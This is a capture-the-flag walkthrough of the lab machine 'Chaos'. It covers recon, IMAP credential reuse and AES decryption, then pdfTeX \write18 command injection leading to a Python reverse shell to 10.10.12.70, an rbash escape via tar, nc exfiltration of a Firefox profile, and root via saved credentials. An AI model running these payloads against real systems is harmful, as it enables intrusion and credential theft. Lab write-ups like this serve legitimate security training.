






## PART 1 : Initial Recon

```console
nmap --min-rate 1000 -p- -v 10.10.10.120
```
```
PORT      STATE SERVICE
80/tcp    open  http
110/tcp   open  pop3
143/tcp   open  imap
993/tcp   open  imaps
995/tcp   open  pop3s
10000/tcp open  snet-sensor-mgmt
```
```console
nmap -oN chaos.nmap -p80,110,143,993,995,10000 -sC -sV -v 10.10.10.120
```
```
PORT      STATE SERVICE  VERSION
80/tcp    open  http     Apache httpd 2.4.34 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.34 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
110/tcp   open  pop3     Dovecot pop3d
|_pop3-capabilities: RESP-CODES AUTH-RESP-CODE CAPA PIPELINING STLS UIDL TOP SASL
| ssl-cert: Subject: commonName=chaos
| Subject Alternative Name: DNS:chaos
| Issuer: commonName=chaos
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2018-10-28T10:01:49
| Not valid after:  2028-10-25T10:01:49
| MD5:   af90 2165 92c7 740f d97a 786a 7e9f cb92
|_SHA-1: 5a4d 4223 3b08 a24b 7d5a e509 09bf 9570 aa2c f6ba
|_ssl-date: TLS randomness does not represent time
143/tcp   open  imap     Dovecot imapd (Ubuntu)
|_imap-capabilities: IMAP4rev1 STARTTLS LITERAL+ OK have SASL-IR post-login more LOGINDISABLEDA0001 capabilities IDLE listed Pre-login ENABLE ID LOGIN-REFERRALS
| ssl-cert: Subject: commonName=chaos
| Subject Alternative Name: DNS:chaos
| Issuer: commonName=chaos
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2018-10-28T10:01:49
| Not valid after:  2028-10-25T10:01:49
| MD5:   af90 2165 92c7 740f d97a 786a 7e9f cb92
|_SHA-1: 5a4d 4223 3b08 a24b 7d5a e509 09bf 9570 aa2c f6ba
|_ssl-date: TLS randomness does not represent time
993/tcp   open  ssl/imap Dovecot imapd (Ubuntu)
| ssl-cert: Subject: commonName=chaos
| Subject Alternative Name: DNS:chaos
| Issuer: commonName=chaos
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2018-10-28T10:01:49
| Not valid after:  2028-10-25T10:01:49
| MD5:   af90 2165 92c7 740f d97a 786a 7e9f cb92
|_SHA-1: 5a4d 4223 3b08 a24b 7d5a e509 09bf 9570 aa2c f6ba
|_ssl-date: TLS randomness does not represent time
995/tcp   open  ssl/pop3 Dovecot pop3d
| ssl-cert: Subject: commonName=chaos
| Subject Alternative Name: DNS:chaos
| Issuer: commonName=chaos
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2018-10-28T10:01:49
| Not valid after:  2028-10-25T10:01:49
| MD5:   af90 2165 92c7 740f d97a 786a 7e9f cb92
|_SHA-1: 5a4d 4223 3b08 a24b 7d5a e509 09bf 9570 aa2c f6ba
|_ssl-date: TLS randomness does not represent time
10000/tcp open  http     MiniServ 1.890 (Webmin httpd)
|_http-favicon: Unknown favicon MD5: EA9A0A98E2A16B0ADEA1F6ED448F4CEF
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: MiniServ/1.890
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```
__NOTE(S)__:
- There is an IMAP (Internet Message Access Protocol) service running:
  - It ensures that e-mails are synced across multiple devices
  - IMAP uses __port 143__
  - SSL/TLS encrypted IMAP uses __port 993__
- There is a POP3 (Post Office Protocol version 3) service running:
  - It downloads e-mails and deletes them from the server
  - POP3 uses __port 110__
  - SSL/TLS encrypted POP3 uses __port 995__  
---

## PART 2 : Port Enumeration

1. Visit http://10.10.10.120 (default __*port 80*__):
   - Landing Page:

     

2. Try adding `chaos.htb` to `/etc/hosts`:
   ```
   127.0.0.1       localhost
   127.0.1.1       kali f
   10.10.10.120    chaos.htb

   # The following lines are desirable for IPv6 capable hosts
   ::1     localhost ip6-localhost ip6-loopback
   ff02::1 ip6-allnodes
   ff02::2 ip6-allrouters
   ```

3. Revisit http://chaos.htb:
   - Landing Page:

     

   - Run nikto:
     ```console
     nikto -host http://chaos.htb
     ```
     ```http
     ...
     + Server: Apache/2.4.34 (Ubuntu)
     ...
     ```

   __NOTE(S)__:
   - The service now loads.
   - The site only contains static __html__ pages
   - The server running is `Apache`
   - There might be hidden __php__ files

4. Run `gobuster` on http://chaos.htb:
   ```console
   gobuster -u http://chaos.htb -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php
   ```
   ```
   /img (Status: 301)
   /css (Status: 301)
   /source (Status: 301)
   /js (Status: 301)
   /javascript (Status: 301)
   ```
   __NOTE(S)__:
   - Nothing interesting seems to pop up
   - What if `gobuster` was ran directly on http://10.10.10.120 ?

5. Run `gobuster` on http://10.10.10.120:
   ```console
   gobuster -u http://10.10.10.120/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php
   ```
   ```
   /wp (Status: 301)
   /javascript (Status: 301)
   ```
   __NOTE(S)__:
   - A __WordPress__ directory show up (`/wp`)

6. Visit http://10.10.10.120/wp: 
   - Landing Page:
     
     

   1. WordPress Home ([/wp/wprdpress](http://10.10.10.120/wp/wordpress)):
      
      

      __NOTE(S)__:
      - There is a __Protected post__ titled __chaos__

   2. Wordpress Post: chaos ([/wp/wordpress/index.php/2018/10/28/chaos/](http://10.10.10.120/wp/wordpress/index.php/2018/10/28/chaos/)): 
      
      

      __NOTE(S)__:
      - The post is written by the author, __human__
      - __ARBITRARY GUESS__: Maybe the password is __human__

   3. View the post using the password, __human__:

      

      __NOTE(S)__:
      - The post contains credentials for a webmail service (`ayush:jiujitsu`)
      - This may be referring to the __IMAP__ or the __POP3__ service

7. Visit the __POP3__ service using `openssl`:
   ```console
   openssl s_client -connect 10.10.10.120:995
   ```
   - While inside the service:
     ```console
     # +OK Dovecot (Ubuntu) ready.
   
     user ayush
     # +OK

     pass jiujitsu
     # +OK Logged in.
     
     list
     # +OK 0 messages:
     .
     ```
   __NOTE(S)__:
   - There are currently no messages present in the service
   - The service might be a __RABBIT HOLE__

8. Visit the __IMAP__ service using `openssl`:
   ```console
   openssl s_client -connect 10.10.10.120:993
   ```
   - While inside the service:
     ```console
     # * OK [CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE LITERAL+ AUTH=PLAIN] Dovecot (Ubuntu) ready.
   
     a login ayush jiujitsu
     # a OK [CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE SORT SORT=DISPLAY THREAD=REFERENCES THREAD=REFS THREAD=ORDEREDSUBJECT MULTIAPPEND URL-PARTIAL CATENATE UNSELECT CHILDREN NAMESPACE UIDPLUS LIST-EXTENDED I18NLEVEL=1 CONDSTORE QRESYNC ESEARCH ESORT SEARCHRES WITHIN CONTEXT=SEARCH LIST-STATUS BINARY MOVE SNIPPET=FUZZY LITERAL+ NOTIFY SPECIAL-USE] Logged in

     b list "" *
     # * LIST (\NoInferiors \UnMarked \Drafts) "/" Drafts
     # * LIST (\NoInferiors \UnMarked \Sent) "/" Sent
     # * LIST (\HasNoChildren) "/" INBOX
     # b OK List completed (0.001 + 0.000 secs).
     
     1 SELECT Drafts
     # * FLAGS (\Answered \Flagged \Deleted \Seen \Draft)
     # * OK [PERMANENTFLAGS (\Answered \Flagged \Deleted \Seen \Draft \*)] Flags permitted.
     # * 1 EXISTS
     # * 0 RECENT
     # * OK [UIDVALIDITY 1540728611] UIDs valid
     # * OK [UIDNEXT 5] Predicted next UID
     # 1 OK [READ-WRITE] Select completed (0.001 + 0.000 secs).
     
     2 FETCH 1:* (FLAGS INTERNALDATE BODY.PEEK[HEADER.FIELDS (SUBJECT)])
     # * 1 FETCH (FLAGS (\Seen) INTERNALDATE "28-Oct-2018 12:16:38 +0000" BODY[HEADER.FIELDS (SUBJECT)]{20}
     # Subject: service
     # 
     # )
     # 2 OK Fetch completed (0.001 + 0.000 secs).

     3 FETCH 1 BODY[TEXT]
     # * 1 FETCH (BODY[TEXT] {2183}
     ```
     - MESSAGE #1:
       ```
       Content-Transfer-Encoding: 7bit
       Content-Type: text/plain; charset=US-ASCII;
       format=flowed

       Hii, sahay
       Check the enmsg.txt
       You are the password XD.
       Also attached the script which i used to encrypt.
       Thanks,
       Ayush

       ```
     - ATTACHMENT #1:
       ```
       Content-Transfer-Encoding: base64
       Content-Type: application/octet-stream;
       name=enim_msg.txt
       Content-Disposition: attachment;
       filename=enim_msg.txt;
       size=272

       MDAwMDAwMDAwMDAwMDIzNK7uqnoZitizcEs4hVpDg8z18LmJXjnkr2tXhw/AldQmd/g53L6pgva9
       RdPkJ3GSW57onvseOe5ai95/M4APq+3mLp4GQ5YTuRTaGsHtrMs7rNgzwfiVor7zNryPn1Jgbn8M
       7Y2mM6I+lH0zQb6Xt/JkhOZGWQzH4llEbyHvvlIjfu+MW5XrOI6QAeXGYTTinYSutsOhPilLnk1e
       6Hq7AUnTxcMsqqLdqEL5+/px3ZVZccuPUvuSmXHGE023358ud9XKokbNQG3LOQuRFkpE/LS10yge
       +l6ON4g1fpYizywI3+h9l5Iwpj/UVb0BcVgojtlyz5gIv12tAHf7kpZ6R08=
       ```
     - ATTACHMENT #2:
       ```
       Content-Transfer-Encoding: base64
       Content-Type: text/x-python; charset=us-ascii;
       name=en.py
       Content-Disposition: attachment;
       filename=en.py;
       size=804

       ZGVmIGVuY3J5cHQoa2V5LCBmaWxlbmFtZSk6CiAgICBjaHVua3NpemUgPSA2NCoxMDI0CiAgICBv
       dXRwdXRGaWxlID0gImVuIiArIGZpbGVuYW1lCiAgICBmaWxlc2l6ZSA9IHN0cihvcy5wYXRoLmdl
       dHNpemUoZmlsZW5hbWUpKS56ZmlsbCgxNikKICAgIElWID1SYW5kb20ubmV3KCkucmVhZCgxNikK
       CiAgICBlbmNyeXB0b3IgPSBBRVMubmV3KGtleSwgQUVTLk1PREVfQ0JDLCBJVikKCiAgICB3aXRo
       IG9wZW4oZmlsZW5hbWUsICdyYicpIGFzIGluZmlsZToKICAgICAgICB3aXRoIG9wZW4ob3V0cHV0
       RmlsZSwgJ3diJykgYXMgb3V0ZmlsZToKICAgICAgICAgICAgb3V0ZmlsZS53cml0ZShmaWxlc2l6
       ZS5lbmNvZGUoJ3V0Zi04JykpCiAgICAgICAgICAgIG91dGZpbGUud3JpdGUoSVYpCgogICAgICAg
       ICAgICB3aGlsZSBUcnVlOgogICAgICAgICAgICAgICAgY2h1bmsgPSBpbmZpbGUucmVhZChjaHVu
       a3NpemUpCgogICAgICAgICAgICAgICAgaWYgbGVuKGNodW5rKSA9PSAwOgogICAgICAgICAgICAg
       ICAgICAgIGJyZWFrCiAgICAgICAgICAgICAgICBlbGlmIGxlbihjaHVuaykgJSAxNiAhPSAwOgog
       ICAgICAgICAgICAgICAgICAgIGNodW5rICs9IGInICcgKiAoMTYgLSAobGVuKGNodW5rKSAlIDE2
       KSkKCiAgICAgICAgICAgICAgICBvdXRmaWxlLndyaXRlKGVuY3J5cHRvci5lbmNyeXB0KGNodW5r
       KSkKCmRlZiBnZXRLZXkocGFzc3dvcmQpOgogICAgICAgICAgICBoYXNoZXIgPSBTSEEyNTYubmV3
       KHBhc3N3b3JkLmVuY29kZSgndXRmLTgnKSkKICAgICAgICAgICAgcmV0dXJuIGhhc2hlci5kaWdl
       c3QoKQoK
       ```       
   __NOTE(S)__:
   - There are three message drafts in the service:
     - __MESSAGE #1__ says that there is an encrypted message and the password is `sahay`
     - __MESSAGE #1__ also says that the script used to encrypt the message is included
     - __ATTACHMENT #1__ is the base64 encoded encrypted message (`enim_msg.txt`)
     - __ATTACHMENT #2__ is the base64 encoded script used for encryption (`en.py`)

9. Reverse the encryption script used (`en.py`)
   1. Examine the encryption script:
      ```py
      def encrypt(key, filename):
         chunksize = 64*1024
         outputFile = "en" + filename
         filesize = str(os.path.getsize(filename)).zfill(16)
         IV =Random.new().read(16)

         encryptor = AES.new(key, AES.MODE_CBC, IV)

         with open(filename, 'rb') as infile:
            with open(outputFile, 'wb') as outfile:
                  outfile.write(filesize.encode('utf-8'))
                  outfile.write(IV)

                  while True:
                     chunk = infile.read(chunksize)

                     if len(chunk) == 0:
                        break
                     elif len(chunk) % 16 != 0:
                        chunk += b' ' * (16 - (len(chunk) % 16))

                     outfile.write(encryptor.encrypt(chunk))

      def getKey(password):
                  hasher = SHA256.new(password.encode('utf-8'))
                  return hasher.digest()
      ```
      __NOTE(S)__:
      - The output file has three parts -- `filesize`, `IV`, `encryptor.encrypt(chunk)`
      - The `filesize` which is 16 characters long:
        - The `zfill(n)` function fills the string with leading zeroes until the string is length __n__
      - The `IV` (Initialization Vector) which is 16 characters long
        - `Random.new().read(16)` returns 16 random characters
      - Then the encrypted message
   
   2. Create a decryptor script (`decryptor.py`):
      ```py
      from Crypto.Cipher import AES
      from Crypto.Hash import SHA256
      import sys

      def decrypt(password, filename):
         in_file = open(filename, 'rb')
         encrypted_message = in_file.read()
         in_file.close()

         key = SHA256.new(password.encode('utf-8')).digest()
         iv = encrypted_message[16:32]
         cipher = AES.new(key, AES.MODE_CBC, iv)

         return cipher.decrypt(encrypted_message[32:]).decode('utf-8')
                        
      print(decrypt(sys.argv[2], sys.argv[1]))
      ```
      __NOTE(S)__:
      - `sys.argv[1]` is the file that contains the encrypted message
      - `sys.argv[2]` is the password
      - The `IV` string is in index `[16:32]`
   
   3. Run `decryptor.py`:
      ```console
      echo MDAwMDAwMDAwMDAwMDIzNK7uqnoZitizcEs4hVpDg8z18LmJXjnkr2tXhw/AldQmd/g53L6pgva9RdPkJ3GSW57onvseOe5ai95/M4APq+3mLp4GQ5YTuRTaGsHtrMs7rNgzwfiVor7zNryPn1Jgbn8M7Y2mM6I+lH0zQb6Xt/JkhOZGWQzH4llEbyHvvlIjfu+MW5XrOI6QAeXGYTTinYSutsOhPilLnk1e6Hq7AUnTxcMsqqLdqEL5+/px3ZVZccuPUvuSmXHGE023358ud9XKokbNQG3LOQuRFkpE/LS10yge+l6ON4g1fpYizywI3+h9l5Iwpj/UVb0BcVgojtlyz5gIv12tAHf7kpZ6R08= | base64 --decode > enim_msg.txt

      python decryptor.py enim_msg.txt sahay
      ```
      ```
      SGlpIFNhaGF5CgpQbGVhc2UgY2hlY2sgb3VyIG5ldyBzZXJ2aWNlIHdoaWNoIGNyZWF0ZSBwZGYKCnAucyAtIEFzIHlvdSB0b2xkIG1lIHRvIGVuY3J5cHQgaW1wb3J0YW50IG1zZywgaSBkaWQgOikKCmh0dHA6Ly9jaGFvcy5odGIvSjAwX3cxbGxfZjFOZF9uMDdIMW45X0gzcjMKClRoYW5rcywKQXl1c2gK
      ```
      __NOTE(S)__:
      - According to __Ayush__, `sahay` is the password
      - A base64 encoded message is output
 
   4. Decode the message:
      ```console
      echo SGlpIFNhaGF5CgpQbGVhc2UgY2hlY2sgb3VyIG5ldyBzZXJ2aWNlIHdoaWNoIGNyZWF0ZSBwZGYKCnAucyAtIEFzIHlvdSB0b2xkIG1lIHRvIGVuY3J5cHQgaW1wb3J0YW50IG1zZywgaSBkaWQgOikKCmh0dHA6Ly9jaGFvcy5odGIvSjAwX3cxbGxfZjFOZF9uMDdIMW45X0gzcjMKClRoYW5rcywKQXl1c2gK | base64 -d
      ```
      ```
      Hii Sahay

      Please check our new service which create pdf

      p.s - As you told me to encrypt important msg, i did :)

      http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3

      Thanks,
      Ayush
      ```
      __NOTE(S)__:
      - A link to a webpage is in the message

---

## PART 3 : Generate User Shell

1. Visit http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3:
   - Landing Page:
     
     

   __NOTE(S)__:
   - Pressing `Create PDF` creates a __POST__ request to `/ajax.php`

2. Check server response when creating a PDF
   ```sh
   curl -d "content=test&template=test1" http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/ajax.php
   ```
   - Response:
     ```
     LOG:
     This is pdfTeX, Version 3.14159265-2.6-1.40.19 (TeX Live 2019/dev/Debian) (preloaded format=pdflatex)
      \write18 enabled.
     entering extended mode
     ...
     ```
   __NOTE(S)__:
   - `\write18 enabled` is written in the response.
     - `\write` is used to write to a stream
     - Stream `18` is referenced to the shell (or terminal)
   - When used with `\immediate`, `\write18` immediately executes instead of after the page has been served

3. Attempt RCE (Remote Code Execution):
   ```sh
   curl -d "content=\immediate\write18{id}&template=test1" http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/ajax.php
   ```
   - Response:
     ```
     LOG:
     This is pdfTeX, Version 3.14159265-2.6-1.40.19 (TeX Live 2019/dev/Debian) (preloaded format=pdflatex)
      \write18 enabled.
     entering extended mode
     ...
     ...uid=33(www-data) gid=33(www-data) groups=33(www-data)
     ...
     ```
   __NOTE(S)__:
   - `\immediate\write18{id}` executed

4. Set-up Reverse Shell:
   - Local Terminal #1:
     ```console
     nc -lvp 4444
     ```
   - Local Terminal #2:
     ```sh
     cmd="python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.12.70\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"

     curl -d "content=\immediate\write18{$cmd}&template=test1" http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/ajax.php
     ```
   - `netcat` listener:
     ```console
     python -c 'import pty; pty.spawn("/bin/bash")'

     cat /etc/passwd | grep bash
     # root:x:0:0:root:/root:/bin/bash
     # sahay:x:1000:1000:choas:/home/sahay:/bin/bash
     # ayush:x:1001:1001:,,,:/home/ayush:/opt/rbash
     ```
     __NOTE(S)__:
     - The user, `ayush`, has a __restricted shell__ (`/opt/rbash`)
     ```console
     su ayush
     # Password: jiujitsu
     
     id
     # rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names
     ```
     __NOTE(S)__:
     - `ayush` __reuses__ passwords

5. Escape the `rbash`:
   1. Look for usable commands:
      ```console
      cd ~
      # rbash: cd: restricted

      ls -lah
      # rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names

      echo test
      # test
      ```
   2. Leverage `echo`:
      ```console
      echo ~/*
      # /home/ayush/mail 
      # /home/ayush/user.txt

      echo $PATH
      # /home/ayush/.app

      echo /home/ayush/.app/*
      # /home/ayush/.app/dir 
      # /home/ayush/.app/ping 
      # /home/ayush/.app/tar
      ```
      __NOTE(S)__:
      - `ayush` is able to use `tar`

   3. Leverage `tar`:
      ```console
      tar -cf /dev/null /home/ayush/mail --checkpoint=1 --checkpoint-action=exec=/bin/sh

      export PATH=/bin:/usr/bin:$PATH
      ```
6. Spawn a __tty shell__:
   ```console
   python -c 'import pty; pty.spawn("/bin/bash")'
   # Ctrl + z
   stty raw -echo
   fg
   export SHELL=bash
   export TERM=xterm-256color
   ```
7. Find `user.txt`:
   ```console
   cat /home/ayush/user.txt
   # eef39126d9c3b4b8a30286970dc713e1
   ```

---

## PART 4 : Attempt Privilege Escalation (ayush -> root)

1. While inside `ayush` shell:
   ```console
   ls -lah ~
   # total 40K
   # drwx------ 6 ayush ayush 4.0K May 26 09:24 .
   # drwxr-xr-x 4 root  root  4.0K Oct 28  2018 ..
   # drwxr-xr-x 2 root  root  4.0K Oct 28  2018 .app
   # -rw------- 1 root  root     0 Nov 24 23:57 .bash_history
   # -rw-r--r-- 1 ayush ayush  220 Oct 28  2018 .bash_logout
   # -rwxr-xr-x 1 root  root    22 Oct 28  2018 .bashrc
   # drwx------ 3 ayush ayush 4.0K May 26 09:24 .gnupg
   # drwx------ 3 ayush ayush 4.0K May 26 09:57 mail
   # drwx------ 4 ayush ayush 4.0K Sep 29  2018 .mozilla
   # -rw-r--r-- 1 ayush ayush  807 Oct 28  2018 .profile
   # -rw------- 1 ayush ayush   33 Oct 28  2018 user.txt

   cd .mozilla/firefoz

   ls -lah
   # total 20K
   # drwx------  4 ayush ayush 4.0K Sep 29  2018  .
   # drwx------  4 ayush ayush 4.0K Sep 29  2018  ..
   # drwx------ 10 ayush ayush 4.0K Oct 27  2018  bzo7sjt1.default
   # drwx------  4 ayush ayush 4.0K Oct 15  2018 'Crash Reports'
   # -rw-r--r--  1 ayush ayush  104 Sep 29  2018  profiles.ini

   cat profiles.ini
   # [General]
   # StartWithLastProfile=1
   # 
   # [Profile0]
   # Name=default
   # IsRelative=1
   # Path=bzo7sjt1.default
   # Default=1
   ```
   __NOTE(S)__:
   - `profiles.ini` contains firefox profile
     - The `Path` is the directory containing relevant files to the profiles
     - Profiles may contain __saved logins__ by the user

2. Export `bzo7sjt1.default`:
   - Local terminal:
     ```console
     nc -lvp 1234 > profile.tar
     ```
   - `ayush` terminal:
     ```console
     tar -cf /tmp/something ~/.mozilla/firefox/bzo7sjt1.default

     cat /tmp/something | nc 10.10.12.70 1234
     ```

3. Extract `profile.tar` and start a firefox isntance
   ```console
   mkdir bzo7sjt1.default
   cd bzo7sjt1.default
   tar -xvf ../profile.tar
   firefox --profile ./
   ```

4. Find __saved logins__:
   1. Go to `Options`
   2. Go to `Privacy & Security`
   3. Look for `Saved Logins...`
   4. Enter the __master password__ ("`jiujitsu`")
   5. Click `Show Passwords`
   6. Enter the __master password__ ("`jiujitsu`") again

   

   __NOTE(S)__:
   - The user, `ayush`, kept reusing the password `jiujitsu`
   - Credentials for a user, `root`, is in the `Saved Logins...`
     - Credential pair -- `root:Thiv8wrej~`
     - Maybe `root` is also reusing credentials

5. While inside `ayush` shell:
   ```console
   su root
   # Password: Thiv8wrej~

   id
   # uid=0(root) gid=0(root) groups=0(root)

   cat /root/root.txt
   # 4eca7e09e3520e020884563cfbabbc70
   ```
